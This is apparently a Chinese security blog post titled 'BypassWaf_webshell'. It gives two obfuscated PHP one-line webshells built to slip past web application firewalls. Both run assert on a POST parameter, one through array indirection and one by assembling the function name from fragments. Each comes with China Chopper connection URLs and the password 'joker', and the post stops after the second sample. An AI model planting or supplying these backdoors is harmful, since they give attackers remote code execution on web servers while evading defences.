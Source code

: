 ```yaml
---
layout:     post
title:      BypassWaf_webshell
date:       2019-1-3
author:     Wh0ale
header-img: img/anatomy_of_php_hack.jpg
catalog: true
tags:
    - bypass
---
```


# **0x01webshell管理工具的免杀**

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fyt9c8n8otj21nv0zcaf9.jpg)

## 1.回调后门

**1.php**

```php 
<?php 
    $POST['POST']='assert';
    $array[]=$POST;
    $array[0]['POST']($_POST['joker']);
?>
```

**用法:**  http://www.xxx.com/1.php

**菜刀连接用法:**  http://www.xxx.com/1.php

**密码：**joker

**详解：**  assert，是php代码执行函数，与eval()有同样的功能，应为$array[],POST[]都是数组，所以$array[]=$POST，就是把$POST数组的值赋给$array数组，这样的话$array[0]['POST']的输出就是assert，所以组成了一句话木马

assert($_POST['joker'])，直接用菜刀链接即可



**2.php**

```php
<?php
error_reporting(0);
$g = array('','s');
$gg = a.$g[1].ser.chr('116');
@$gg($_POST[joker]);
?>
```

**用法:**  http://www.xxx.com/2.php

**菜刀连接用法:** http://www.xxx.com/2.php
